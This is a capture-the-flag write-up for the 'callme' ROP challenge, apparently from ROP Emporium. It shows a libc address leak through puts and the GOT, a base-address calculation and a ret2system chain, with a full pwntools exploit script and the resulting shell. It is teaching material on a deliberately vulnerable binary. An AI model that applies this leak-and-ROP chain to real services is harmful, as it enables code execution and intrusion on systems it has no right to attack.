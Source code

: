 # callme Alternative Solution

There are no `system()` calls nor any `/bin/sh` strings in the application,
however we can find them at runtime, once `libc` has been loaded.

```
gdb ./callme
start

find "/bin/sh"
# Searching for '/bin/sh' in: None ranges
# Found 1 results, display max 1 items:
# libc : 0x7fa3151ee5bd --> 0x68732f6e69622f ('/bin/sh')

p *system
# $1 = {int (const char *)} 0x7fa31508c290 <__libc_system>
```

GDB disables ASLR per default, to enable it run `set disable-randomization off`.

In our exploit we can't depend on the addresses reported by GDB above, since
they are usually randomized every time the program is run.

But using `puts` or `printf`, we can print out the address of a known libc
function and then use that to calculate the base address at which libc is
loaded.

```python
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)
```

We read the offset of `puts` from the global offset table (GOT):

```sh
readelf --relocs callme
#   Offset          Info           Type           Sym. Value    Sym. Name + Addend
# 000000601018  000100000007 R_X86_64_JUMP_SLO 0000000000000000 puts@GLIBC_2.2.5 + 0
```

Then we pass this as the argument to a `puts` call, which will dereference it
and print out the actual address of the `puts` function.

By knowing the correct version of libc in use we can simply subtract the offset
(where in libc the function is located) from the leaked address (where in
memory it is loaded) to obtain the address where libc starts in our processes
memory.

```python
libc.address = leaked_addr - libc.symbols["puts"]
```

<details>
<summary>What `libc` version am I using?</summary>

If we run the program locally, we can use something like `readelf -d callme`
to find what is being loaded:

```
Dynamic section at offset 0xe00 contains 26 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libcallme.so]
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
```

`libc.so.6` which is found under `/lib/x86_64-linux-gnu/libc.so.6`.

However, assuming that this is a program running on a remote machine, we don't
have it quite so easy.

We can leak one (or for better accuracy multiple) addresses of libc functions
and use tools like [blukat libc database search](https://libc.blukat.me/) or
[niklasb libc database](https://github.com/niklasb/libc-database) to determine
the correct version.

![Providing the libc database search with the address at which we found puts
returns 4 matches, only one of them being x86\_64.](libc-database-search.png)

![Providing the address of __libc_start_main also, we narrowed the search down
to one match.](libc-version-2.png)

To do the leaking, we can use a function like this:

```python
process_name = "./callme"
elf = ELF(process_name)
rop = ROP(elf)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

OFFSET = b'A'*40
PUTS_PLT = elf.plt['puts']                         # so that we can call the puts function
MAIN = elf.sym['main']                             # so that we can call main again, after leaking an address
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]                # additional ret instruction for padding, to realign stack

def find_addr(func_name):
    func_got = elf.got[func_name]
    # overflow stack, print out function's address, restart at main
    payload = OFFSET + p64(POP_RDI) + p64(func_got) + p64(PUTS_PLT) + p64(MAIN)
    print(p.recvuntil("> "))
    print(p.clean())
    p.sendline(payload)
    leaked_string = p.recvuntil("\ncallme")
    received = leaked_string.replace(b"Thank you!\n", b"")
    received = received.replace(b"\ncallme", b"")
    leaked_addr = u64(received.ljust(8, b"\x00"))
    print("--- leak BEGIN ---")
    print(hex(leaked_addr))
    print("--- leak END ---")
    if libc.address == 0:
        libc.address = leaked_addr - libc.symbols[func_name]
        print("libc base @ %s" % hex(libc.address))

find_addr('puts')
find_addr('__libc_start_main')
```

</details>

---

Finally, we can do our search for the `/bin/sh` string and the `system()`
function.

```python
bin_sh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(system)
```

However, the application crashes in `do_system()`, at a `movaps` instruction.
As we've learned in the previous challenges, a simple fix is to include
another `ret` instruction.

```python
payload = offset + p64(pop_rdi) + p64(bin_sh) + p64(ret) + p64(system)
```

Finally, we get a shell:

```
python3 exploit.py
# ... SNIP ...
[*] Switching to interactive mode
$ whoami
testikus
$ ls
callme    exploit.py        key2.dat  payload.txt
```

## Full Exploit Script

```python
#!/usr/bin/env python3
from pwn import *
context.bits = 64
context.arch = 'x86_64'

process_name = "./callme"
elf = ELF(process_name)
rop = ROP(elf)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

OFFSET = b'A'*40
PUTS_PLT = elf.plt['puts']                         # so that we can call the puts function
MAIN = elf.sym['main']                             # so that we can call main again, after leaking an address
POP_RDI = (rop.find_gadget(['pop rdi', 'ret']))[0]
RET = (rop.find_gadget(['ret']))[0]                # additional ret instruction for padding, to realign stack

#p = process(process_name)
p = gdb.debug(process_name, '''
set disable-randomization off
b pwnme
b *pwnme+89
''')

def find_addr(func_name):
    func_got = elf.got[func_name]
    # overflow stack, print out function's address, restart at main
    payload = OFFSET + p64(POP_RDI) + p64(func_got) + p64(PUTS_PLT) + p64(MAIN)
    print(p.recvuntil("> "))
    print(p.clean())
    p.sendline(payload)
    leaked_string = p.recvuntil("\ncallme")
    received = leaked_string.replace(b"Thank you!\n", b"")
    received = received.replace(b"\ncallme", b"")
    leaked_addr = u64(received.ljust(8, b"\x00"))
    print("--- leak BEGIN ---")
    print(hex(leaked_addr))
    print("--- leak END ---")
    if libc.address == 0:
        libc.address = leaked_addr - libc.symbols[func_name]
        print("libc base @ %s" % hex(libc.address))

find_addr('puts')
find_addr('__libc_start_main')

# do_system uses the movaps instruction, which will fail on an unaligned stack.
# To realign the stack we include an additional ret in our rop-chain.
BIN_SH = next(libc.search(b"/bin/sh"))
SYSTEM = libc.sym["system"]
payload = OFFSET + p64(POP_RDI) + p64(BIN_SH) + p64(RET) + p64(SYSTEM)

print(p.clean())
p.sendline(payload)
print(p.clean())
p.interactive()
```

I created most of this with some help from this great
[blog](https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-leaking-libc-address).

Using the script as displayed in the linked article I was always missing the
last byte of the leaked address.
GDB per default disables ASLR, meaning that every time I ran the program in the
debugger, the leaked address was the same.
This address just so happened to end in a `0x20`.

The culprit is this line:

```python
recieved = leaked_string.replace(b"overflow me:", b"").strip()
```

Note the `strip()` at the end, `leaked_string` contains the `printf`/`puts`
address.
If that address ends (or starts) in a `0x20` this will be removed by the
`strip` call, since `0x20` also happens to be ASCII (space).

